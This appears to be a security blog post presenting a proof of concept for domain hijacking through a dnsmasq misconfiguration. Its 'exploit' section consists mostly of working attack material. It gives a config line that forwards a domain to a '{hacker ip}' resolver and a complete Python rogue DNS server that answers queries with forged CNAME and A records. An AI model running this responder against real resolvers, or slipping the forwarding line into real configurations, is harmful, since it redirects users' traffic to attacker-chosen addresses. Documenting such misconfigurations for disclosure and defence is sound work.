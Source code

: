 ```yaml
---
title: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
date: 2020-09-09 16:50:00
tags: [dns, dnsmasq]
description: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
---
```


# dnsmasq
> Dnsmasq provides network infrastructure for small networks: DNS, DHCP, router advertisement and network boot. It is designed to be lightweight and have a small footprint, suitable for resource constrained routers and firewalls. It has also been widely used for tethering on smartphones and portable hotspots, and to support virtual networking in virtualisation frameworks. Supported platforms include Linux (with glibc and uclibc), Android, *BSD, and Mac OS X. Dnsmasq is included in most Linux distributions and the ports systems of FreeBSD, OpenBSD and NetBSD. Dnsmasq provides full IPv6 support.  

[dnsmasq homepage][1]

## exploit
1. add this config to `dnsmasq.conf` or `dnsmasq.d/poc.conf`
```
server=/a.net/{hacker ip}
```
then restart the dnsmasq to activate this config.  
* dnsmasq.conf is usually at /usr/local/etc/ if in mac os

2. run this code in the {hacker ip} - `poc.py`
```python
#!/usr/bin/env python3

import sys
from socket import socket, AF_INET, SOCK_DGRAM

class dns:
    def __init__(self):
        # hdr
        self.transactionID  = b"\x00\x00" # --
        self.flags          = b"\x81\x80"
        self.questionNum    = b"\x00\x01"
        self.answerRR       = b"\x00\x02"
        self.authorityRR    = b"\x00\x00"
        self.additionalRR   = b"\x00\x00"

        # queries - only one we need
        self.qname  = b"\x01a\x03net\x00" # -- 0x0c
        self.qtype  = b"\x00\x01"
        self.qclass = b"\x00\x01"

        # answers - CNAME
        self.cnameName    = b"\xc0\x0c"
        self.cnameType    = b"\x00\x05"
        self.cnameClass   = b"\x00\x01"
        self.cnameTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.cnameDataLen = b"\x00\x0d" # --
        self.cnameTarget  = b"\x07example\x03net\x00"  # --

        # answers - A
        self.aName    = b"\xc0\x19"  # --
        self.aType    = b"\x00\x01"
        self.aCLass   = b"\x00\x01"
        self.aTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.aDataLen = b"\x00\x04"
        self.aRecord  = b"\x01\x02\x03\x04"
    
    def _setReply(self, query: bytes):
        self.transactionID = query[:2]
        i = 0x0c
        while i < len(query):
            if query[i] == 0:
                break
            i += 1
        self.qname = query[0x0c:i+1]
        self.aName = ((len(self.qname) + 28) | 0xc000).to_bytes(2, byteorder="big")

    def build(self, query: bytes):
        """build dns response to query"""
        self._setReply(query)
        # build
        hdr = self.transactionID + self.flags + self.questionNum + self.answerRR + self.authorityRR + self.additionalRR
        query = self.qname + self.qtype + self.qclass
        answerCNAME = self.cnameName + self.cnameType + self.cnameClass + self.cnameTtl + self.cnameDataLen + self.cnameTarget
        answerA = self.aName + self.aType + self.aCLass + self.aTtl + self.aDataLen + self.aRecord

        return hdr + query + answerCNAME + answerA  


def dns_server(port: int):
    address = ('', port)
    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(address)
    print("Listen UDP on: ", port)
    while True:
        msg, addr = sock.recvfrom(8192)
        print("recv from:", addr)
        if len(msg) > 20:
            d = dns()
            data = d.build(msg)
            sock.sendto(data, addr)


if __name__ == '__main__':
    port = 53
    if len(sys.argv) > 1 and sys.argv[1].isdigit():
        port = int(sys.argv[1])
    dns_server(port)

```

3. check hijack

![poc][2]

[1]: http://www.thekelleys.org.uk/dnsmasq/doc.html
[2]: /assets/images/poc.jpeg
